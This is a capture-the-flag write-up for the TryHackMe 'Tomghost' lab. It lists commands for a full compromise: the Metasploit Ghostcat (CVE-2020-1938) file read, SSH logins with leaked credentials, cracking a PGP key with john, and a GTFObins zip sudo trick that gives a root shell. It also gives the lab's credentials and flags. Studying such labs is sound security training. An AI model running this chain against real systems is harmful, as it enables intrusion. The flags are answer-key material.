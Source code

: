 # Tomghost - Easy

```shell
nmap -T4 -p- -A -v 10.10.2.190

msfconsole -q

search CVE-2020-1938
#ghostcat

use auxiliary/admin/http/tomcat_ghostcat

options

set RHOSTS 10.10.2.190

run

#use credentials from exploit
ssh skyfuck@10.10.2.190

ls -la

#in attacker machine
scp -r skyfuck@10.10.2.190:/home/skyfuck/tryhackme.asc /home/sv/

gpg2john tryhackme.asc > asc_hash

john --wordlist=/usr/share/wordlists/rockyou.txt asc_hash
#we get passphrase

gpg --import tryhackme.asc

gpg --decrypt credential.pgp
#gives SSH merlin's credentials

ssh merlin@10.10.2.190

sudo -l
#we can run zip as root

#GTFObins exploit
TF=$(mktemp -u)

sudo /usr/bin/zip $TF /etc/hosts -T -TT 'sh #'
#we get root shell
```

* Open ports & services:

  * 22 - ssh - OpenSSH 7.2p2 (Ubuntu)
  * 53 - tcpwrapped
  * 8009 - ajp13 - Apache Jserv (Protocol v1.3)
  * 8080 - http - Apache Tomcat 9.0.30

* Checking the webpage on port 8080, we can confirm that it is using Apache Tomcat/9.0.30

* We can search for exploits related to this version on ExploitDB and Metasploit.

* For 9.0.30, we have the ghostcat exploit, and it is available in Metasploit as well.

* Now, this exploit allows us to read files which we do not have access to, and in this case, the filename by default is /WEB-INF/web.xml

* When we run the exploit, we get the contents of this file; it contains the creds skyfuck:8730281lkjlkjdqlksalks

* We can use this creds to log into SSH; user flag can be found in merlin's home directory.

* We have two files - credential.pgp and tryhackme.asc - transfer both files to attacker machine.

* We can use gpg2john to crack the .asc file; we get the passphrase 'alexandru'

* With the help of this passphrase, we can import key and decrypt the pgp file to get the creds merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j

* Logging into SSH as merlin, we can check sudo permissions; zip binary can be run as root.

* Using the exploit from GTFObins, we can misuse this and get root shell access.

```markdown
1. Compromise this machine and obtain user.txt - THM{GhostCat_1s_so_cr4sy}

2. Escalate privileges and obtain root.txt - THM{Z1P_1S_FAKE}
```

